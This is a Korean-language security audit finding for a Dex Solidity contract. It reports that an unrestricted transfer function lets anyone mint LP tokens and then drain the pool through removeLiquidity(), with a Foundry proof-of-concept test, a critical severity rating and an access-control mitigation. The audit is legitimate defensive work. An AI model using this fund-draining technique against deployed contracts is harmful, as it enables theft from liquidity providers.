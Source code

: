 Dex Protocol Audits
=====
# 무제한 유동성 토큰 발행으로 인한 자금 추출 취약성<br/>

File: Dex.sol <br/>
Function: transfer(address to, uint256 lpAmount) <br/>
Line Number: 159-167 <br/>

https://github.com/hangi-dreamer/Dex_solidity/blob/89a39ccd2d03346ae6ad8bfc1a35cf7a478f0593/src/Dex.sol#L159-L167
<br/>

## Description
Dex 컨트랙트의 전송 함수를 사용하면 누구나 유동성 토큰(LPT)을 발행하고 원하는 주소로 전송할 수 있습니다. 공격자는 이를 악용하여 대량의 LPT 토큰을 직접 발행한 다음, 이 토큰을 사용하여 removeLiquidity()를 호출하여 기본 토큰(TokenX 및 TokenY)을 추출할 수 있습니다.

**POC**
```solidity
function testMintLPBreak() external {
    // user add liquidity
    uint lp = dex.addLiquidity(3000 ether, 4000 ether, 0);
    emit log_named_uint("[user]LP", lp / 10**18);

    vm.startPrank(address(attacker));
    
    // attacker tokenX, tokenY balance
    uint tx = tokenX.balanceOf(address(attacker));
    uint ty = tokenY.balanceOf(address(attacker));
    emit log_named_uint("tokenX", tx / 10**18);
    emit log_named_uint("tokenY", ty / 10**18);

    dex.transfer((attacker), lp);

    dex.removeLiquidity(lp, 0, 0);

    // get token pair
    uint tx_attack = tokenX.balanceOf(address(attacker));
    uint ty_attack = tokenY.balanceOf(address(attacker));
    emit log_named_uint("tokenX", tx_attack / 10**18);
    emit log_named_uint("tokenY", ty_attack / 10**18);
}
```

## Impact
Severity: Critical <br/>
이 취약점을 통해 공격자는 LPT 토큰 공급량을 임의로 부풀리고 유동성 풀에서 기본 토큰을 추출할 수 있으며, 다른 유동성 공급자의 잠재적인 자금 손실을 초래할 수 있습니다.


## Mitigation
이 문제를 해결하려면 수정자 또는 접근 제어 메커니즘을 사용하여 승인된 당사자(예: 유동성 공급자)만 LPT 토큰을 발행할 수 있도록 제한하세요. 예를 들어, 승인된 minter의 매핑을 생성하고 호출자가 승인된 minter인지 확인한 후 채굴 작업을 허용하세요.
